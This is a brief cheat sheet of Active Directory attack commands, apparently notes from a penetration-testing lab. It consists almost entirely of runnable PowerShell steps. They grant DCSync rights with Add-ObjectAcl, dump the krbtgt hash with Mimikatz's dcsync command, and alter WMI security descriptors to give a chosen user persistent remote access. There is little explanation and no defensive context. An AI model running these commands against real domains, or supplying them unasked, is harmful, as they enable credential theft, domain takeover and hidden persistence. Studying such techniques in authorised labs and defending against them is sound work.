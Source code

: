 # DCSync

## **Add full-control rights**

```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,DC=local’ -PrincipalSamAccountName <username> -Rights All -Verbose
```

## **Add rights for DCsync**

```
Add-ObjectAcl -TargetDistinguishedName ‘DC=dollarcorp,DC=moneycorp,Dc=local’ -PrincipalSamAccountName <username> -Rights DCSync -Verbose
```

## **Execute DCSync and dump krbtgt**

```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
```

## Security Descriptor - WMI

```
. ./Set-RemoteWMI.ps1
```

## **On a local machine**

```
Set-RemoteWMI -Username <username> -Verbose
```

## **On a remote machine without explicit credentials**

```
Set-RemoteWMI -Username <username> -Computername <computername> -namespace ‘root\cimv2’ -Verbose
```

## **On a remote machine with explicit credentials**

Only root/cimv and nested namespaces

```
Set-RemoteWMI -Username <username> -Computername <computername> -Credential Administrator -namespace ‘root\cimv2’ -Verbose
```

## **On remote machine remove permissions**

```
Set-RemoteWMI -Username <username> -Computername <computername> -namespace ‘root\cimv2’ -Remove -Verbose
```

## **Check WMI permissions**

```
Get-wmiobject -Class win32_operatingsystem -ComputerName <computername>
```
